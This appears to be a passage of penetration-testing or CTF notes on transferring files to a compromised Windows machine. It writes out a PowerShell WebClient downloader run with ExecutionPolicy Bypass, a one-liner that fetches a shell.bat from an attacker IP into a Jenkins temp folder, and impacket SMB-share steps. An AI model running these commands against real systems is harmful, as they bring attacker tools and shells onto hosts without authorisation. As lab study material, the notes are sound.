 The following sequence of commands creates a PowerShell script named **wget.ps1** that performs the download of a file (**winpeas.exe**) from a specified URL (http://10.10.16.22/winpeas.exe) using the **System.Net.WebClient** class.

Obviously, I have Python HTTP server running with **winpeas.exe** on the server.


```powershell
c:\Users\Public>echo $storageDir = $pwd > wget.ps1

c:\Users\Public>echo $webclient = New-Object System.Net.WebClient >>wget.ps1

c:\Users\Public>echo $url = "http://10.10.16.22:80/winPEASany_ofs.exe" >>wget.ps1

c:\Users\Public>echo $file = "output-file.exe" >>wget.ps1

c:\Users\Public>echo $webclient.DownloadFile($url,$file) >>wget.ps1

c:\Users\Public>powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1
```

Now I have the file on the box:

[Reference](https://d00mfist.gitbooks.io/ctf/content/transfering_files_to_windows.html)


This also works sometimes:

```powershell
powershell -c “(new-object System.Net.WebClient).DownloadFile(‘http://10.10.14.7:8000/shell.bat','C:\Users\Administrator\.jenkins\temp\shell.bat')"
```

### SMB Transfer
We wil first start a SMB server on our Kali machine:

`impacket-smbserver share .` or `impacket-smbserver share . -smb2support -username jadu -password jadu`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/reel/image-22.png)

On the target machine, let's connect to the created SMB server:

`net use * \\10.10.14.36\share` or `net use * \\10.10.16.25\share /u:jadu jadu`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/reel/image-35.png)
